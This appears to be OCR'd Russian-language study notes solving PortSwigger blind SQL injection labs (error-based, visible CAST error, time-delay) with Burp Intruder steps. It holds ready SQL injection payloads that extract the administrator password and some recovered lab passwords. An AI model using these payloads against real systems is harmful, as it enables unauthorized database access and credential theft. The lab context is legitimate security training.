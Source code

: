 ```TrackingId=j6oKBZ3hNPucIvR3' AND (SELECT 'a' FROM users LIMIT 1)='a;```
14. Поместите маркеры положения полезной нагрузки вокруг последнего символа в значении cookie. Для этого выберите только кнопку и нажмите кнопку Кнопка "Добавить §". После этого вы должны увидеть следующее значение cookie (обратите внимание на маркеры положения полезной нагрузки): `a``a`
    
    `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
15. Чтобы протестировать персонажа в каждой позиции, вам нужно отправить подходящие полезные нагрузки в определенную позицию полезной нагрузки. Можно предположить, что пароль содержит только строчные буквенно-цифровые символы. На боковой панели "Полезная нагрузка" проверьте, что выбран "Простой список", а в разделе "Конфигурация полезной нагрузки" добавьте полезную нагрузку в диапазоне a - z и 0 - 9. Вы можете легко выбрать их с помощью раскрывающегося списка «Добавить из списка».
16. Запустите атаку, нажав кнопку "Начать атаку".
17. Просмотрите результаты атаки, чтобы найти значение символа на первой позиции. При возникновении ошибки приложение возвращает код состояния HTTP 500 и обычный код состояния HTTP 200. В столбце «Статус» в результатах поиска злоумышленника отображается код статуса HTTP, поэтому вы можете легко найти строку с 500 в этом столбце. Полезная нагрузка, отображаемая для этой строки, является значением символа в первой позиции.
18. Теперь вам просто нужно повторно запустить атаку для каждой из остальных позиций символов в пароле, чтобы определить их значение. Для этого вернитесь на исходную вкладку Intruder, и измените указанное смещение с 1 на 2. После этого вы должны увидеть следующее значение в качестве файла cookie:
    
    `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
1. Запустите модифицированную атаку, просмотрите результаты и обратите внимание на персонажа на втором смещении.
2. Продолжайте этот процесс, проверяя смещение 3, 4 и так далее, пока не получите полный пароль
45bnqyzfthqk4y291bkc

Задача: https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based

Отправим пробный запрос
```TrackingId=lhbEh21yExjqWcDf''' ``` и увидим ошибку
```Unterminated string literal started at position 54 in SQL SELECT * FROM tracking WHERE id = 'lhbEh21yExjqWcDf''''. Expected  char ```
Судя по ошибке,нам нужно добавлять комментарий в конце. ```TrackingId=lhbEh21yExjqWcDf''' -- ``` не выдает ошибку
С помощью CAST (преобразование одного типа данных в другой) мы можем получить ошибку и сделать SQL видимой
 ```TrackingId=lhbEh21yExjqWcDf'AND CAST ((SELECT 1) AS int) --  ```
 Выдает ошибку связанную с типом данных
 ```TrackingId=lhbEh21yExjqWcDf'AND 1=CAST ((SELECT 1) AS int)-- ``` ошибке нет, значит нашли верный запрос
```TrackingId=lhbEh21yExjqWcDf'AND 1=CAST ((SELECT username FROM users) AS int)--``` выдает ошибку и обрезает часть запроса. Удалим лишнее
```Cookie: TrackingId='AND 1=CAST ((SELECT username FROM users) AS int) -- ```  выдает другую ошибку связанную с кол-вом строк
```Cookie: TrackingId='AND 1=CAST ((SELECT username FROM users LIMIT 1) AS int) -- ``` выдает ошибку в которой видим пользователя administrator
```'AND 1=CAST ((SELECT password FROM users LIMIT 1) AS int) --``` выдает ошибку в которой видим пароль администора

Задача: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays

Вставить в куки ' || pg_sleep(10)-- (так как это постгря PostgreSQL)
'; IF (1=2) WAITFOR DELAY '0:0:10'-- (другой вариант для других БД)

Задача: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

 Для этого перейдите на  **вкладку Пул ресурсов**, чтобы открыть боковую панель **Пул ресурсов** и добавить атаку в пул ресурсов с параметром **Максимум одновременных запросов**

mcup6zazvukgqr23uwij
```